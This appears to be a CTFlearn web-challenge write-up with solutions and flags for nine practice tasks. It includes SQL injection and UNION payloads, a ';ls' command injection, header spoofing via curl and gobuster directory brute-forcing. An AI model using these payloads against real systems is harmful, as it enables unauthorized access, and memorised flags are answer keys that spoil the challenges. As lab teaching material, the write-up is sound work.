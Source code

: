 # POST Pratice

If you go to the site and have it inspected, you will see a username and a password.

Execute `curl -X POST http://165.227.106.113/post.php -d "username=admin&password=71urlkufpsdnlkadsf"` on [Reqbin](https://reqbin.com/curl) to send a request and get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{p0st_d4t4_4ll_d4y}
``
</details>

# Basic Injection

Paste the query in the input : `SELECT * FROM webfour.webfour where name = ' OR '1' = '1'`

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
``
</details>

# Inj3ction Time

Paste the query in the input : `.1 union select f0und_m3,2,3,4 from w0w_y0u_f0und_m3`

<details>
<summary markdown="span">Answer</summary>

flag :``
abctf{uni0n_1s_4_gr34t_c0mm4nd}
``
</details>

# Don't Bump Your Head(er)

If you go to the site and have it inspected, you will see a User-agent. 

So now just change your user-agent with `Sup3rS3cr3tAg3nt`:

<img src="files/Network_Conditions.png" alt="User-Agent"/>

<img src="files/User-Agent.png" alt="User-Agent"/>

Now, you have the referer to `awesomesauce.com`

Execute `curl -v -H 'User-Agent: Sup3rS3cr3tAg3nt' --referer awesomesauce.com http://165.227.106.113/header.php` on [Reqbin](https://reqbin.com/curl) to send a request and get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{did_this_m3ss_with_y0ur_h34d}
``
</details>

# Calculat3 M3

The site gives a calculator that you can click the buttons to input expression, then it will eval the expression and gives a result. The display is set to `readonly`, by removing the attribute we can input whatever we want.

Try to get the contents in directory, set the expression to `;ls`. Submit it to get a list of file names in result, the flag is the one starts with ctf.

<details>
<summary markdown="span">Answer</summary>

flag :``
ctf{watch_0ut_f0r_th3_m0ng00s3}
``
</details>

# My Blog

Go to the site, click on `blog`, inspect the site, check in `Application` into `Local Storage` and you found the flag.

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{n7f_l0c4l_570r463_15n7_53cur3_570r463}
``
</details>

# Gobustme ?

Go to the site, you see a Ghostbuster theme song and lyrics, but *Ghostbuster* is replaced by *Gobuster* and a file txt

The link explains what kind of software it is. So go install :

```sh
sudo apt install gobuster
```

If you want, [DirBuster](https://www.kali.org/tools/dirbuster/) is more beginner friendly because is a GUI while gobuster is a CLI but it is much slower than the othervery.

So now go brut force the website with the file txt : 

```sh
gobuster dir -u https://gobustme.ctflearn.com/ -w /home/guill/common.txt
```

<img src="files/Gobuster.png" alt="Gobuster"/>

Now, height page of the website is brute force, let's go check in, the `/flag` is a fake, the real is `/hide`.

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{gh0sbu5t3rs_4ever}
``
</details>

# AudioEdit

Too long to write here, check below

<details>
<summary markdown="span">Full explanation</summary>

[here](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/explanation_audioedit.md)
</details>

<details>
<summary markdown="span">Answer</summary>

flag :``
ABCTF{m3t4_inj3cti00n}
``
</details>

# Grid It!

Too long to write here, check below

<details>
<summary markdown="span">Full explanation</summary>

[here](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/explanation_gridit.md)
</details>

<details>
<summary markdown="span">Answer</summary>

flag :``
ctflearn{obj3ct_inj3ct1on}
``
</details>